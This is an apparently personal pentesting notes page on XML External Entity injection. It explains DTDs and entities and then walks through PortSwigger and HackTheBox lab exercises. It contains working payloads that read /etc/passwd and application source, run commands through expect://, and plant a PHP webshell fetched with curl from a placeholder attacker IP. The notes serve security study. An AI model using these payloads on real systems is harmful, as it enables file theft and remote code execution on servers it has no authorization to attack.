



---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# XXEI


**XML External Entity Injection (XXEI)** is a security vulnerability where an attacker exploits an XML parser to include or reference external entities. This can lead to unauthorized access to files, server-side data, or internal systems, and can potentially expose sensitive information or cause denial-of-service attacks.


## General Information

### XML Structure

**Extensible Markup Language (XML)** is focused on the storage and transportation of data and its key compoments are depicted below (Figure 1).

<figure><figcaption><p>Figure 1: The key components of an XML document (image adapted from <a href="https://www.w3schools.com/xml/xml_syntax.asp">here</a>).</p></figcaption></figure>

If we need to use the XML-specific characters within an XML document they must be replaced with their corresponding entity references.

| XML reserved character | Entiry reference |
| ---------------------- | ---------------- |
| `<`                    | `&lt;`           |
| `>`                    | `&gt;`           |
| `&`                    | `&amp;`          |
| `'`                    | `&apos;`         |
| `"`                    | `&quot;`         |

What we are mostly interesting in from an attacker's POV[^1] is the [**XML Document Type Definition (DTD)**](https://www.w3schools.com/xml/xml\_dtd\_intro.asp) which allows the validation of an XML document against a pre-defined doc structure. The DTD can be placed within the XML doc itself (Figure 2), imported from an external file (Figure 3.1), or referenced through a URL (Figure 3.2).

<div>

<figure><figcaption><p>Figure 2: An example of a DTD placed within the XML document (image adapted from <a href="https://www.w3schools.com/xml/xml_dtd_intro.asp">here</a>).</p></figcaption></figure>

 

<figure><figcaption><p>Figure 3: A DTD imported from an external file (1) and a URL (2) (images adapted from <a href="https://www.w3schools.com/xml/xml_dtd_intro.asp">here</a>).</p></figcaption></figure>

</div>

Within DTDs we can define **entities** (XML variables) using the `ENTITY` keyword. We can define them either **internally** (followed by the entity name and its value) or **externally** (followed by the `SYSTEM` keyword and its path).

```xml
<!-- Internal Entity Example -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
  <!ENTITY sender "x7331">
]>

<!-- External Entity Example -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
  <!ENTITY sender SYSTEM "http://example.com/note.txt">
]>
```

We can then expand them the same way.

```xml
<name>&sender;</name>
```

### Common Attacks



```xml
# This works in certain Java web applications
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "file:///etc/">
]>
```



```xml
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
```




```xml
<!DOCTYPE test [
<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```





```xml
# The PHP://expect filter is not installed by default. 
# Also for this to work, the output must be reflected.
<!DOCTYPE test [
<!ENTITY company SYSTEM "expect://whoami'">
]>
```




We can achieve RCE by exploiting a URL-referenced DTD.



```bash
# creating a PHP webshell
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
# starting a Python3 HTTP server
sudo python3 -m http.server 80
```



```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```



We can also leverage a[ **file upload** functionality by uploading **XML-based formats**](xxei.md#svg-xxei-greater-than-rce) (`svg`, `docx`). In this case we must ensure to set `Content-Type: text/svg+xml`.

## Examples

### XXEI -> LFI

> _The example below is based on PortSwigger's_ [_Exploiting XXE using external entities to retrieve files_](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files) _lab._&#x20;

The `Check Stock` feature process XML data and it is vulnerable to XXE injection (Figure 4).

<figure><figcaption><p>Figure 4: Exfiltrating sensitive data via an XXE injection.</p></figcaption></figure>

It is worth noting that Burp's Active Scan was able to identify this flaw (Figure 5).

<figure><figcaption><p>Figure 5: Burp's Active Scan picking up the XXE injection vulnerability. </p></figcaption></figure>

### XXEI -> LFI (2)

> _The example below is based on HTB's_ [_Web Enumeration & Exploitation_](https://academy.hackthebox.com/module/163/section/1544) _module._

The checkout process is sending data in XML format (Figure 6).

<figure><figcaption><p>Figure 6: The checkout process sends dota in XML format.</p></figcaption></figure>

The XML data has 2 fields: `subtotal` and `userid`. We can already see that the value passed into the latter gets reflected back, but we can also confirm this (Figure 7).

<figure><figcaption><p>Figure 7: Testing XML fields.</p></figcaption></figure>

By adding a simple XML payload we can achieve LFI (Figure 8).

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE userid [
  <!ENTITY xxetest SYSTEM "file:///etc/passwd">
]>
```

<figure><figcaption><p>Figure 8: LFI via XXE.</p></figcaption></figure>

### SVG XXEI -> LFI

> _The example below is based on PortSwigger's_ [_Exploiting XXE via image file upload_](https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload) _lab._

The application has an upload functionality within the comments section (Figure 9).

<figure><figcaption><p>Figure 9: Enumerating a potential XXE injection vulnerability.</p></figcaption></figure>

We can try injecting a out-of-the-box payload, such as [this](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xxe-inside-svg), and see what comes back (Figure 10).


```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```


<figure><figcaption><p>Figure 10: Achieving LFI via XXE injection.</p></figcaption></figure>

### XInclude -> LFI

> _The example below is based on PortSwigger's_ [_Exploiting XInclude to retrieve files_](https://portswigger.net/web-security/xxe/lab-xinclude-attack) _lab._

When using the `Check Stock` functionality the `POST` request made does not seem to process XML data (Figure 11).

<figure><figcaption><p>Figure 11: A normal, non XML-related, <code>POST</code> request.</p></figcaption></figure>

In this case, where we can't see XML data directly and we can't modify the `DOCTYPE` element, we can use `XInclude` payloads, such as [this](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xinclude-attacks), as parameter values (Figure 12).

<figure><figcaption><p>Figure 12: Usign an <code>XInclude</code> payload to achieve LFI.</p></figcaption></figure>

It's worth noting that Burp's Active Scan was able to also identify the XXEI flaw once again (Figure 13).

<figure><figcaption><p>Figure 13: Burp's Active Scan enumerates an XXEI vulnerability.</p></figcaption></figure>

[^1]: Point Of View
